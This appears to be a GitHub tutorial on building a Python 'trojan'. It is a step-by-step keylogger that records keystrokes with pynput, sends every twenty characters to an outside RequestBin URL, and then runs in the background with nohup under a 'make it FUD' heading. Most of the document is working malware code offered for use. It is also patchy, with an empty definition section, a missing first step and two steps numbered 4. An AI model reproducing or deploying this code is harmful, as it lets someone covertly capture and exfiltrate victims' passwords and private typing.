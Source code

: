 # Creating a simple Trojan 

This is a simple tutorial on how to create a simple trojan using python. 

## What is a trojan?
## Step 2: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
## Step 3: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener

keys = ''

def send_keys():
    global keys
    global last_send
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Step 4: Lets take things to the next level

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 

```python
from pynput.keyboard import Key, Listener
import requests

keys = ''
request_bin_url = 'https://{request bin url}'

def send_keys():
    global keys
    global last_send
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Step 4: Lets make it FUD


```bash
nohup python3 send_line.py &
```
### Click [here](https://github.com/EXTREMOPHILARUM/trojan) to download repo.
